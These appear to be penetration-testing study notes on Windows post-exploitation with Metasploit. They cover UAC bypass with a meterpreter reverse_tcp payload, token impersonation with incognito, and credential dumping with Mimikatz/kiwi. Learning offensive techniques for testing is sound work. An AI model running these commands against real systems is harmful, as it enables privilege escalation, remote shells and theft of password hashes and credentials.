 ```
search enum_computer
search enum_patches (systeminfo manually in session if this fails)
search enum_shares

search enable_rdp

loot
```

**Bypassing UAC**
User Account Control is a Windows security feature.

```
> after exploit
shell
net users
net localgroup administrators

search bypassuac
set LPORT 4433
set TARGET Windows\ x64
set PAYLOAD windows/x64/meterpreter/reverse_tcp

getsystem
getuid
hashdump
```

**Token impersonation with incognito**
Windows access tokens are created and managed by the Local Security Authority Subsystem Service (LSASS). Generated by winlogon.exe process every time a user authenticates successfully. Attached to userinit.exe process. Child processes started by user will inherit a copy of the access token and run under these privileges. Security levels: impersonate-level and delegate-level. Non-interactive vs. interactive login.
Must have SeImpersonatePrivilege. 
```
>after exploit
getprivs
load incognito
list_tokens -u
impersonate_token <...>
ps 
migrate <explorer.exe>
hashdump
```

**Dumping hashes with Mimikatz**
Mimikatz post-exploit tool to extract plaintext credentials from memory, password hashes from local SAM databases etc. Security Account Manager database.
```
>after exploit
pgrep lsass
load kiwi
help
creds_all
lsa_dump_sam
lsa_dump_secrets
```
Can also upload mimikatz and use executable directly in shell instead of meterpreter kiwi commands.



